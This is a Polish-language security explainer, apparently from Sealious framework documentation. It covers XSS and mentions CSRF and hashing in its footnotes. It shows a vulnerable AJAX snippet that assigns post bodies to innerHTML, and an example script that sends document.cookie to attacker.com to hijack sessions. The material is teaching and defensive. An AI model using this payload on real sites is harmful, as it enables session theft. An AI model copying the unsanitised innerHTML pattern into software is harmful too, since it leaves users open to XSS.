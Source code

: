 Ataki typu XSS wykorzystują interpreter HTML przeglądarki do uruchamiania arbitralnych skryptów, które mają pełen dostęp do danych sesyjnych użytkownika i mogą spowodować ich wyciek. Zapobieganie im nie należy do najtrudniejszych, ale podatności na XSS są wciąż bardzo powszechne.

## Przykłady ataków XSS w dużych aplikacjach

Do stron, na których odnaleziono podatność na atak przy użyciu XSS, należą [wg @xssed]:

* samsung.com
* fbi.com
* ups.com
* uk.playstation.com
* 9gag.com

## Przebieg ataku

Rozpatrzmy przebieg XSS na przykładzie webowego, opartego o AJAX^[Korzystanie z modelu AJAX w aplikacjach webowych często jest przyczyną podatności na XSS [@ajax_guide]---na szczęście często jesteśmy w stanie im w pełni zapobiec odpowiednio konfigurując wyłącznie backend aplikacji], interfejsu sieci społecznościowej. 

Kod pobierający najnowsze posty użytkowników może mieć postać:

```javascript
var post_container = document.getElementById("posts");
request.get("/newest_posts.php", function(posts){
    posts.forEach(function(post){
        var post_div = document.createElement("div");
        post_div.classList.add("user-post");
        post_div.innerHTML = post.body;
        post_container.appendChild(post_div);
    })
});
```

Następnie, jeżeli serwer nie zapobiega XSS, wystarczy, aby któryś z użytkowników rozpatrywanej aplikacji utworzył post o treści:

```html
<div>
Jestem złośliwym użytkownikiem
</div>
<script>
document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='
   + document.cookie
</script>
```

aby każdy z użytkowników, któremu wyświetli się post atakującego został przekierowany na złośliwą stronę, która przechwytuje id sesji---co umożliwia atakującemu podszycie się pod tego użytkownika.

## Jak Sealious zapobiega XSS

Domyślnie zainstalowany w Sealiousie typ pola `text` korzysta z modułu `sanitize-html` aby usuwać z danych wprowadzanych przez użytkownika potencjalnie złośliwe skrypty^[poniższy fragment kodu pochodzi z pliku `lib/base-chips/field-type.text.js` z repozytorium sealious/sealious]: 


[^ssl_breakable_footnotes]: Odpowiednio zainfekowane maszyny są w stanie umożliwić ataki typu Man-In-The-Middle nawet dla połączeń HTTPS [zob. @superfish_ssl]
[^md5_bad_przypisy]: m.in. [@md5_not_suitable_ms], [@md5_not_suitable]
[^co_to_kolizja]: "Kolizja" oznacza możliwość wygenerowania w realistycznym czasie ciągu znaków, dla którego dana funkcja hashująca przyjmuje wartość identyczną z zadanym hashem (np. skradzionym z bazy danych). 
[^channel_responsibility_footnote]: Sealious w obecnych odsłonach (wersja `0.6.21-stable` i wersja `0.7-alpha`, stan ze stycznia 2016) nie zawiera mechanizmu sesji---aktualna struktura naszego frameworka wymaga, aby to chipy typu *channel* implementowały swój mechanizm weryfikacji identyfikatora sesji. Części tej sekcji odnoszące się do protokołów `http`(`s`) i plików *cookies* tyczą się konkretnego pluginu do Sealiousa---`sealious-www-server`.
[^sha1_footnote]: Podany fragment kodu pochodzi z pliku `define/channel.www_server.js` z repozytorium `Sealious/sealious-www-server`.
[^yes_you_read_that_right]: Może się wydawać, że przechowywanie owego dodatkowego tokenu autoryzacji w pliku cookie niweczy nasze zamiary--przecież sednem ataku CSRF jest fakt, że id sesji trzymane w cookie jest zawsze dopisywane przez przeglądarkę do zapytań HTTP wysłanych na serwer naszej aplikacji. Jak dodanie drugiego tokenu do pliku cookies ma nas obronić przed tym atakiem? Otóż serwer w trakcie sprawdzania obecności tokenu w zapytaniu nie będzie go szukał w nagłówkach `Cookie`---będzie oczekiwał obecności nagłówka `csrfToken`, niezależnego od `Cookie`, i to jego wartość będzie porównywał z tokenem przechowywanym w zmiennej sesyjnej. Brak tego nagłówka lub zła jego wartość będą się wiązać z odmową dostępu. W przeglądarce internetowej tylko skrypt pochodzący z danej domeny ma dostęp do jej pliku cookie na komputerze użytkownika, więc tylko taki skrypt jest w stanie dopisać ten token do *nagłówka* HTTP, co skutecznie zapobiega CSRF.